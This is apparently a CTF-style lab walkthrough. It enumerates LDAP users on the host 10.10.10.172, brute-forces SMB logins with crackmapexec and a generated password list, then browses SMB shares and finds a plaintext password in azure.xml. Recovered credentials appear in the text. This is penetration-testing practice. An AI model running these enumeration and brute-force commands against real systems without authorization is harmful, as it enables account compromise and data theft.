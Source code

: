 # LDAP
---
- Using `enum4linux`, we can find ldap users:
	- `enum4linux 10.10.10.172`
	- ![[Pasted image 20250425134545.png]]

# Bruteforcing SMB
---
- Tried `ESREP-Roasting`but nothing found and there were no web servers or anything else on the server.
- But since we had list of users, tried bruteforcing it with the custom generated password list `osint_gen.py`
- Bruteforce using `crackmapexec`:
	- ` crackmapexec smb 10.10.10.172 -u users_small.txt  -p osint_output/passwords.txt`
	- ![[Pasted image 20250425144324.png]]
	- `SABatchJobs` : `SABatchJobs`
# SMB
---
- We have credentials of `SABatchJobs`, so we can list the shares:
	- ` smbclient -L \\\\10.10.10.172\\ -U SABatchJobs`
	- ![[Pasted image 20250425144425.png]]

- **users$**
---
	- `smbclient  \\\\10.10.10.172\\users$ -U SABatchJobs`
	- `recurse true`
	- `ls`
		![[Pasted image 20250425150013.png]]
	- `get mhope\azure.xml`
		![[Pasted image 20250425150058.png]]
		`mhope` : `4n0therD4y@n0th3r$`
- ==`azure_uploads` was empty==